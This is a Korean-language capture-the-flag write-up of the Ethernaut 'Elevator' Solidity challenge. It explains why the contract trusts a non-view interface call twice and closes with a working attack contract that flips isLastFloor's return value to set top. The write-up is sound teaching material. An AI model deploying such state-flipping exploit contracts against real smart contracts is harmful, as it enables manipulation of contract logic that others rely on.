

## 문제
### 지문
This elevator won't let you reach the top of your building. Right?
Things that might help:
- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
## 배경지식
---
솔리디티에서 외부 컨트랙트를 호출하는 방법은 크게 `high-level call`과 `low-level call`로 볼 수 있다. 이 문제에서 쓰이는 방식은 `high-level call`이다.
`high-level call`은 호출 대상의 ABI 또는 함수 시그니처를 알고 있을 때 사용한다. 전체 구현 코드를 몰라도 인터페이스만 맞으면 아래처럼 특정 주소를 그 인터페이스 타입으로 보고 함수를 호출할 수 있다.
```solidity
interface Target {
    function someFunction(uint256 value) external returns (bool);
}

Target(addr).someFunction(1);
```
인터페이스는 함수의 형태만 약속한다. 실제로 그 함수가 어떤 값을 반환할지, 내부 상태를 바꿀지, 같은 입력에 대해 항상 같은 값을 줄지는 인터페이스만으로 보장되지 않는다.
---
`msg.sender`는 현재 함수를 직접 호출한 주소다. EOA가 바로 `Elevator.goTo()`를 호출하면 `msg.sender`는 EOA이고, 공격 컨트랙트가 `Elevator.goTo()`를 호출하면 `msg.sender`는 공격 컨트랙트 주소가 된다.
```solidity
Building building = Building(msg.sender);
```
이 코드는 새로운 `Building` 컨트랙트를 배포하는 코드가 아니다. `msg.sender` 주소를 `Building` 인터페이스 타입으로 해석해서, 그 주소에 `isLastFloor(uint256)` 호출을 보내겠다는 뜻이다.
공격자가 직접 `goTo()`를 호출하지 않고 공격 컨트랙트를 통해 호출하면, `Elevator`는 공격 컨트랙트를 `Building`이라고 믿고 `isLastFloor()`를 실행한다.
---
`Elevator`는 `isLastFloor(_floor)`가 같은 입력에 대해 같은 값을 반환한다고 기대한다. 하지만 `Building.isLastFloor`에는 `view`가 붙어 있지 않다.
```solidity
function isLastFloor(uint256) external returns (bool);
```
즉 호출된 컨트랙트는 `isLastFloor()` 안에서 자기 상태를 바꿀 수 있다. 그러면 첫 번째 호출에서는 `false`, 두 번째 호출에서는 `true`처럼 호출 순서에 따라 다른 값을 반환하는 구현이 가능하다.
## 문제 코드 분석
---
먼저 `Building` 인터페이스를 보자.
```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}
```
`Building`은 `isLastFloor(uint256)` 함수 하나만 요구한다. `Elevator`는 이 인터페이스를 통해 `msg.sender`에게 `isLastFloor()`를 호출한다.
`Elevator`는 실제 구현체를 검증하지 않는다. `msg.sender`가 어떤 컨트랙트든 함수 시그니처만 맞으면 호출은 진행된다. 따라서 공격 컨트랙트도 `isLastFloor(uint256)`만 구현하면 `Building` 역할을 할 수 있다.
---
이제 `goTo()` 흐름을 보자.
```solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
        floor = _floor;
        top = building.isLastFloor(floor);
    }
}
```
흐름은 다음과 같다.
1. `msg.sender`를 `Building`으로 캐스팅한다.
2. `building.isLastFloor(_floor)`를 호출한다.
3. 첫 번째 호출 결과가 `false`면 `if`문 안으로 들어간다.
4. `floor`를 갱신한다.
5. `building.isLastFloor(floor)`를 다시 호출하고, 그 결과를 `top`에 저장한다.
문제는 2번과 5번이 같은 외부 컨트랙트에 대한 호출이라는 점이다. `Elevator` 내부에서 같은 값을 두 번 읽는 것이 아니라, 외부 컨트랙트 코드를 두 번 실행한다. 외부 컨트랙트가 호출 횟수를 저장하고 있다면 두 호출의 반환값은 달라질 수 있다.
첫 번째 호출에서는 `false`를 반환해서 `if`문에 진입시키고, 두 번째 호출에서는 `true`를 반환해서 `top`을 `true`로 만들면 된다.
---
상태 업데이트 위치도 확인해야 한다.
```solidity
floor = _floor;
top = building.isLastFloor(floor);
```
`floor`와 `top`은 `Elevator`의 상태변수다. 공격 컨트랙트의 `isLastFloor()` 안에서 바꾸는 상태값은 공격 컨트랙트의 스토리지에 저장된다.
즉 공격 컨트랙트가 자기 상태를 바꾸는 이유는 `Elevator.top`을 직접 수정하기 위해서가 아니다. 두 번의 `isLastFloor()` 호출에서 서로 다른 반환값을 만들기 위한 스위치가 필요하기 때문이다. 실제로 `Elevator.top`을 바꾸는 코드는 `top = building.isLastFloor(floor);` 이다.
## 풀이
공격 컨트랙트가 `Elevator.goTo()`를 호출하게 만들면 `Elevator` 입장에서 `msg.sender`는 공격 컨트랙트 주소가 된다. 그러면 `Building(msg.sender).isLastFloor(...)`는 공격 컨트랙트의 `isLastFloor()`를 실행한다.
공격 컨트랙트의 `isLastFloor()`는 내부 `top` 값을 매번 뒤집어서 반환한다. 초기값을 `true`로 두면 첫 번째 호출에서 `false`가 반환되어 `if`문에 들어가고, 두 번째 호출에서 `true`가 반환되어 `Elevator.top`이 `true`가 된다.
`Elevator`는 외부 컨트랙트가 반환하는 값을 두 번 신뢰한다. 공격자는 그 외부 컨트랙트가 될 수 있고, 같은 함수가 호출 순서에 따라 다른 값을 반환하도록 만들면 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator{
    function goTo(uint) external;
}

contract Attack{
    Elevator elevator;
    bool public top = true;

    constructor(address _addr) {
        elevator = Elevator(_addr);
    }

    function isLastFloor(uint) public returns(bool) {
        top = !top;
        return top;
    }
    
    function attack() public {
        elevator.goTo(1);
    }
}
```

